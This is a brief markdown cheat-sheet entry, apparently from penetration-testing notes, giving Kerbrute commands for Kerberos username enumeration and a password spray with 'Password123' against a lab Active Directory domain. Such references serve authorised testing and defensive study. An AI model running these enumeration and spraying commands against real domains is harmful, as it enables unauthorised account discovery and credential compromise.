 ## Kerbrute
https://github.com/ropnop/kerbrute

User Enumeration
```bash
./kerbrute_linux_amd64 userenum -d lab.ropnop.com usernames.txt
```

Password Spray
```
./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com domain_users.txt Password123
```